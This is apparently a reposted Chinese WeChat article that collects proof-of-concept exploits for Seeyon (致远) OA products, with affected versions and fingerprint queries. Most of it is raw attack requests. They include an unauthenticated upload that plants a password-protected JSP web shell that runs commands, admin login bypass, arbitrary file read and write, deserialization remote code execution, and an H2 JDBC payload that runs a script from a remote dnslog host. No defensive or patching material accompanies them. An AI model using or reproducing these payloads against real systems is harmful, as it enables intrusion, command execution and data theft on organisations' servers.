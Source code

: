#  2023致远oa合集POC在野

[ 进击的HACK ](javascript:void\(0\);)

**进击的HACK** ![]()

微信号 redteasec

功能介绍 1、分享网络安全知识。 2、分享IT热门事件。

____

___发表于_

收录于合集

以下文章来源于左逆安全攻防 ，作者左逆

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6snIHdxXibLnzu85hz4GjSTC4W75uZLjKIhhYQpytQcbw/0)
**左逆安全攻防** .

更新分享poc常用工具等

## 网络测绘：title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本：致远A8-V5协同管理软件V6.1sp1  
                致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3  
                致远A8+协同管理软件V7.1

![]()

  
  
致远 OA 协同管理软件无需登录 getshell  
访问验证：ip/seeyon/htmlofficeservlet  
构造 PoC  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlVOPTION=S3WYOSWLBSGrcurrentUserId=zUCTwigsziCAPLesw4gsw4oEwV66CREATEDATE=wUghPB3szB3Xwg66RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6originalFileId=wV66originalCreateDate=wUghPB3szB3Xwg66FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6needReadFile=yRWZdAS6originalCreateDate=wLSGP4oEzLKAz4=iz=66<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce

访问 webshell  可知当前权限  

  * 

    
    
    /seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

  

![]()

  
  
致远OA_V8.1SP2文件上传漏洞  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /seeyou/ajax.do?method=ajaxAction&managerName=formulaManager&managerMethod=saveFormula4C1oud HTTP/1.1Content-Type: application/x-www-form-urlencoded; charset=UTF-8User-Agent: Cozilla/5.0 (Vindows Et 6.1; Sow64,rident/7.0; ry:11.0)Accept-Encoding: gzip,deflateCookie:JSESSIONID=5bGx5rW35LmL5YWzCache-Control: no-cacheContent-Encoding: deflatePragma: no-cacheHost: 1.1.1.1Accept: text/html，image/gif, image/jpeg，*; q=.2,*/*; q=.2Content-Length:522729Connection: closeX-Forwarded-For: 1.2.3.4  
    arguments={"formulaName":"test","formulaAlias":"safe_pre","formulaType":"2","formulaExpression":"","sample":"马子"}

  
  
致远OA任意管理员登录  

  *   *   *   * 

    
    
      
    POST /seeyon/thirdpartyController.do HTTP/1.1  
    method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

![]()

截图保命------------------------------------------------------------  
  
  
致远 M3 反序列化 远程命令执行漏洞（XVE-2023-24878）  
漏洞信息：  
https://x.threatbook.com/v5/vul/6bf25402a41b4fc27497a5b42a8421d7ef38d57cb7d8143dedb9a6f438310a2d9e083c39c56fee2571651827b4d9ce8d  
  
利用 CB1 生成 hex 反序列化数据，替换 POC 中的 HEX  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057Upgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Content-Type: application/jsonContent-Length: 3680  
    [{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]  
    

然后再 Get 访问/mobile_portal/api/systemLog/pns/loadLog/app.log  
  
致远 OA wpsAssistServlet 任意文件读取（XVE-2023-25300）  

  *   *   *   *   *   *   *   * 

    
    
    POST /seeyon/wpsAssistServlet HTTP/1.1Host:User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip  
    flag=template&templateUrl=C:/windows/system.ini  
    

  
致远OA ajax.do任意文件写入  

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /seeyon/ajax.do HTTP/1.1Host: 192.168.24.144:8089Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=77F3CDD0BF63F73259CD2BEC7B442801; hostname=192.168.24.144:8089; loginPageURL=; login_locale=zh_CNConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 183method=ajaxAction&managerName=fileToExcelManager&managerMethod=saveExcelInBase&arg uments=["C:\Seeyon\A8\ApacheJetspeed\webapps\seeyon\ROOT/ceshi.txt","",{"columnName":[ 'HelloWorld']}]  
    

  

致远OA ajax.do反序列化  

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /seeyon/ajax.do?method=ajaxAction&managerName=syncConfigManager HTTP/1.1 Host: 192.168.24.144:8089Cache-Control: max-age=0  
       Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=e8bf99e698af63766573e5ae9ee9aa8ce5aea4e79a84706f63; hostname=192.168.24.144:8089; loginPageURL=; login_locale=zh_CNConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 174managerMethod=checkIsCreate&arguments=["","org.h2.Driver","jdbc:h2:mem:testdb;TRACE_LE VEL_SYSTEM_OUT=3;INIT=RUNSCRIPT%20FROM%20'http://.dnslog.cn'","a","","",""]

  

  

  

星球初创，邀请各路大神成为嘉宾感兴趣后台回复：“快乐一夏”  

后台回复：“快乐星球” 关注最新动态

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

